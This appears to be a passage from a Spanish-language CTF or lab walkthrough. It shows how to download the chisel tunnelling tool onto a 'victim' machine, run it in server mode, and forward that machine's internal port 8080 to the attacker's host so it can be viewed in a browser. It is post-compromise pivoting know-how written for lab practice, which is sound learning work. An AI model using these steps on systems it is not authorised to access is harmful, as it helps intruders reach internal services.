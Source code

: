 Vemos que hay un puerto `8080` a nivel interno, vamos a pasarnoslo a nuestro `host` realizando un `PortForwarding` con `chisel`.

```shell
cd /tmp
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
gunzip chisel_1.10.1_linux_amd64.gz
chmod +x chisel_1.10.1_linux_amd64 
mv chisel_1.10.1_linux_amd64 chisel
```

Echo esto vamos a levantar `chisel` en modo server desde la maquina `victima`.

```shell
chisel server -p 9999
```

Ahora desde la maquina `host` vamos a realizar lo mismo de antes, pero ejecutando este otro comando:

```shell
cd /tmp
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
gunzip chisel_1.10.1_linux_amd64.gz
chmod +x chisel_1.10.1_linux_amd64 
mv chisel_1.10.1_linux_amd64 chisel
```

```shell
chisel client <IP_VICTIM>:9999 8888:127.0.0.1:8080
```

Ahora si vamos a nuestro navegador y buscamos lo siguiente...

```
URL = http://127.0.0.1:8888/
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-05 201735.png" alt=""><figcaption></figcaption></figure>
